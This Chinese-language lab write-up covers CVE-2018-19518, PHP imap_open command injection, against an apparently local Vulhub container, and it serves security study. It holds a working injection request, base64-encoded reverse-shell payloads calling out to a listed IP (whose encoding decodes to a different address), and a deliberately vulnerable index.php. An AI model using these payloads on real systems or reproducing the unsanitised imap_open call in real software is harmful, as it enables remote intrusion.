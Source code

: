 # PHP imap 远程命令执行漏洞 CVE-2018-19518

## 漏洞描述

php imap 扩展用于在 PHP 中执行邮件收发操作。其 `imap_open` 函数会调用 rsh 来连接远程 shell，而 debian/ubuntu 中默认使用 ssh 来代替 rsh 的功能（也就是说，在 debian 系列系统中，执行 rsh 命令实际执行的是 ssh 命令）。

因为 ssh 命令中可以通过设置 `-oProxyCommand=` 来调用第三方命令，攻击者通过注入注入这个参数，最终将导致命令执行漏洞。

参考链接：

- https://bugs.php.net/bug.php?id=77153
- https://github.com/Bo0oM/PHP_imap_open_exploit
- https://antichat.com/threads/463395/#post-4254681
- https://nvd.nist.gov/vuln/detail/CVE-2018-19518

## 环境搭建

Vulhub 执行如下命令启动一个包含漏洞的 PHP 环境：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可查看 web 页面。Web 功能是测试一个邮件服务器是否能够成功连接，需要填写服务器地址、用户名和密码。

目标源码为 index.php

## 漏洞复现

发送如下数据包即可成功执行命令 `echo '1234567890'>/tmp/test0001`：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

![](images/PHP%20imap%20远程命令执行漏洞%20CVE-2018-19518/image-20240529090507711.png)

执行 `docker compose exec web bash` 进入容器，可见 `/tmp/test0001` 已成功创建：

![](images/PHP%20imap%20远程命令执行漏洞%20CVE-2018-19518/image-20240529090441656.png)

写入反弹 shell：

```bash
# Payload
echo "/bin/bash -i >& /dev/tcp/60.204.216.3/8888 0>&1" > /tmp/a

# Base64 Encode
ZWNobyAiL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjEiID4gL3RtcC9h
# URL Encode
ZWNobyAiL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA%2bJjEiID4gL3RtcC9h
# 组装Payload
# hostname=x+-oProxyCommand%3decho%09[PAYLOAD]|base64%09-d|sh}&username=111&password=222
hostname=x+-oProxyCommand%3decho%09ZWNobyAiL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA%2bJjEiID4gL3RtcC9h|base64%09-d|sh}&username=111&password=222
```

![](images/PHP%20imap%20远程命令执行漏洞%20CVE-2018-19518/image-20240529093314892.png)

触发反弹 shell：

```shell
# Payload
/bin/bash /tmp/a

# Base64 Encode
L2Jpbi9iYXNoIC90bXAvYQ==
# URL Encode
L2Jpbi9iYXNoIC90bXAvYQ%3d%3d
# 组装Payload
# hostname=x+-oProxyCommand%3decho%09[PAYLOAD]|base64%09-d|sh}&username=111&password=222
hostname=x+-oProxyCommand%3decho%09L2Jpbi9iYXNoIC90bXAvYQ%3d%3d|base64%09-d|sh}&username=111&password=222
```

![](images/PHP%20imap%20远程命令执行漏洞%20CVE-2018-19518/image-20240529093903859.png)

### index.php

```php
<?php
if(!empty($_POST)) {
    $imap = @imap_open('{'.$_POST['hostname'].':993/imap/ssl}INBOX', $_POST['username'], $_POST['password']);
}
?>
<!doctype html>
<html lang="en">
<head>
    <!-- Required meta tags -->
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <!-- Bootstrap CSS -->
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.1.3/dist/css/bootstrap.min.css" integrity="sha256-eSi1q2PG6J7g7ib17yAaWMcrr5GrtohYChqibrV7PBE=" crossorigin="anonymous">

    <title>Input your email server</title>
</head>
<body>

<div class="container">
        <h2>Test your email server</h2>
        <?php if(!empty($_POST)): ?>
        <?php if($imap): ?>
            <div class="alert alert-success" role="alert">
                Connect successful!
            </div>
        <?php else: ?>
            <div class="alert alert-danger" role="alert">
                Connect failed!
            </div>
        <?php endif; ?>
        <?php endif; ?>
        <form method="post">
            <div class="form-group">
                <label>Server address</label>
                <input type="text" name="hostname" class="form-control" >
            </div>
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control" >
            </div>
            <div class="form-group">
                <label>Password</label>
                <input type="password" class="form-control" name="password">
            </div>
            <button type="submit" class="btn btn-primary">Submit</button>
        </form>
</div>


<!-- Optional JavaScript -->
<!-- jQuery first, then Popper.js, then Bootstrap JS -->
<script src="https://cdn.jsdelivr.net/npm/jquery@3.3.1/dist/jquery.min.js" integrity="sha256-FgpCb/KJQlLNfOu91ta32o/NMZxltwRo8QtmkMRdAu8=" crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/popper.js@1.14.4/dist/umd/popper.min.js" integrity="sha256-EGs9T1xMHdvM1geM8jPpoo8EZ1V1VRsmcJz8OByENLA=" crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/bootstrap@4.1.3/dist/js/bootstrap.min.js" integrity="sha256-VsEqElsCHSGmnmHXGQzvoWjWwoznFSZc6hs7ARLRacQ=" crossorigin="anonymous"></script>
</body>
</html>
```
